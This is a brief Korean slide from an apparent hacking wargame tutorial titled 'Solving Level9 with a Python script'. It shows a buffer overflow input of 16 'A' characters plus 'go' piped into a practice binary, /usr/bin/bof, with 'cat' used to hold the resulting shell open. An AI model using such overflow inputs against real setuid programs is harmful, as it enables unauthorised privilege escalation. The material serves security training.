

# Level9 풀기 – 파이썬 스크립트 이용하기
./usr/bin/bof 1234567890123456go

(python –c ‘print “A”*16+”go”; cat) | /usr/bin/bof